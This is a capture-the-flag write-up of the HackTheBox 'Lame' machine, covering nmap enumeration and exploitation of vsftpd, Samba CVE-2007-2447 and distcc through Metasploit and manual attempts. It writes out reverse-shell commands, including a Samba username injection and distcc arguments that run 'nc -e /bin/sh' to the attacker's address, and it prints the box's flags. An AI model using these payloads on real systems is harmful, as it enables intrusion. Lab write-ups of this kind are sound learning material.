 ```yaml
---
title: "Lame"
date: 2023-03-05
# weight: 1
author: MP
hideSummary: true
cover:
    image: "/write-ups/hackthebox/htb_lame/cover.jpg" # image path/url
    relative: true # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


---

## Enumeration
1. Started with an Nmap scan `nmap -sC -sV -Pn -oA nmap/full 10.10.10.3`
	1. `-sC` Scan with default NSE scripts. Considered useful for discovery and safe.
	2. `-sV` Attempts to determine the version of the service running on port.
	3. `-Pn` Ping probes were being blocked.
	4. `-oA nmap/full` Outputs all format results to a file named full in the nmap directory.

![](/write-ups/hackthebox/htb_lame/lame_01.png)

---

### VSFTPD

**CVE-2011-2523**

Starting with VSFTPD, I searched exploit-db for `vsftpd 2.3.4` and found the following backdoor command execution exploits: https://www.exploit-db.com/exploits/49757 & https://www.exploit-db.com/exploits/17491

The first link is to a Python3 file and the second link is to a Metasploit file; both files perform CVE-2011-2523.

---

### SMB

**CVE-2007-2447**

Next, I searched for exploit-db for `samba 3.0.20` and found a Metasploit exploit for CVE-2007-2447: https://www.exploit-db.com/exploits/16320

---

## Exploitation + Root
**SMB CVE-2007-2447 Using Metasploit**

I launched Metasploit using `msfconsole` and searched for Samba 3.0.20: 

`search samba 3.0.20`

![](/write-ups/hackthebox/htb_lame/lame_02.png)

Looking at the options for the exploit, I provided the target host address (RHOST), listen address (LHOST):

`show options`

`set rhost 10.10.10.3`

`set lhost 10.10.14.6`

![](/write-ups/hackthebox/htb_lame/lame_03.png)

After filling in the options, I ran the exploit and received a reverse shell as root:

`run`

`whoami`

![](/write-ups/hackthebox/htb_lame/lame_04.png)

After confirming I was root, I obtained both the user and root flags:

`cat /home/makis/user.txt` > `d1bd3634d0056ea44f390e8b8c81a1e3`

`cat /root/root.txt` > `d2a473c2dcb76bb90cf02a8d646564ed`

![](/write-ups/hackthebox/htb_lame/lame_05.png)

![](/write-ups/hackthebox/htb_lame/lame_05-2.png)

---

### Failed Exploit 1

**VSFTPD - CVE-2011-2523 Python Script**

I downloaded the Python file for CVE-2011-2523 from: https://www.exploit-db.com/exploits/49757
Trying to run the file I received a connection refused error

`python3 ./49757.py 10.10.10.3`

![](/write-ups/hackthebox/htb_lame/lame_06.png)

---

### Failed Exploit 2

**VSFTPD - CVE-2011-2523 Metasploit Script**

I launched Metasploit using `msfconsole` and located the exploit:

`search vsftpd 2.3.4`

`use 0`

Setting the target host address (RHOST) with `set rhost 10.10.10.3` and entering `run` returned a prompt to specify a password.

![](/write-ups/hackthebox/htb_lame/lame_07.png)

---

### Failed Exploit 3

**SMB CVE-2007-2447 Python Script**

I downloaded the exploit from the following address: https://github.com/amriunix/CVE-2007-2447

Next, I installed the dependent packages with pipx: `pipx install --include-deps pysmb`

I launched a Netcat listener on port 1234: `nc -lvnp 1234`

Finally, I tried running the exploit supplying the target address, target port, listener address, and listener port:

`python3 ./usermap_script.py 10.10.10.3 139 10.10.14.6 1234`

![](/write-ups/hackthebox/htb_lame/lame_08.png)

Looking into this error it turns out `pipx` is limited to Python3 packages: https://stackoverflow.com/questions/65974803/python2-7-no-smb-module-cant-locate

---

### Failed Exploit 4

**SMB Manually**

I tried the manual exploit from 0xdf's write-up: https://0xdf.gitlab.io/2020/04/07/htb-lame.html#completely-manually

Running the following I received a connection refused error:

`smbclient //10.10.10.3/tmp -U "./=`nohup nc -e /bin/sh 10.10.14.6 1234`"`


![](/write-ups/hackthebox/htb_lame/lame_09.png)

---

### Failed Exploit 5

**Distcc with Nmap**

I confirmed the Distcc script was installed with Nmap: `locate *.nse | grep distcc`

![](/write-ups/hackthebox/htb_lame/lame_10.png)

Next, I tried to run a remote command using the script I just located: `nmap -Pn -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='id'"`

I also tried to run a remote command to provide a reverse shell with Netcat but the connection was filtered: `nmap -Pn -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 10.10.14.6 443'"`

![](/write-ups/hackthebox/htb_lame/lame_11.png)
